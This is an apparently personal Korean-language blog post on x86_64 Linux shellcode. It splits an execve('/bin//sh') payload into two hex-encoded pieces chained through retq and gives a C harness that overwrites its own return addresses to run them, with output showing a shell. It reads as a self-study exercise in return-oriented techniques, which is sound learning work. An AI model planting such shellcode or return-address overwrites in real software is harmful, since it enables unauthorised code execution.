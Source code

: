 ```yaml
---
layout: post
title: "Linux x86_64 shellcode 4"
date: 2014-11-10 01:54:46 +0900
comments: true
categories: 
---
```


이번에는 쉘코드를 2 개로 나누어서, 첫번째는 `retq` 로 끊는다. `return address` 2 개를 적재하여, `retq` 로 두번쨰 gadget 이 실행되도록 한다. 첫번째 `_shellcode` 의 `\xc3` 이 `retq` 이다.

    char *_shellcode = ""
        "\x48\x31\xd2"
        "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"
        "\x48\xc1\xeb\x08"
        "\xc3"; // retq

    char *_shellcode2 = ""
        "\x53"
        "\x48\x89\xe7"
        "\x48\x31\xc0" // xor %rax,%rax
        "\x50"
        "\x57"
        "\x48\x89\xe6"
        "\xb0\x3b"
        "\x0f\x05" ;


    void explode() {
        long *ret;
        ret = (long *)&ret;
        ret++; // pass local variable
        ret++; // pass %rbp
        *ret = _shellcode;
        ret++;
        *ret = _shellcode2;
    }

    main()
    {
        explode();
    }

    z@ubuntu:~/shells% ./rop
    $

#### 참고

* [Return-Oriented Programming: Systems, Languages, and Applications](https://cseweb.ucsd.edu/~hovav/dist/rop.pdf)
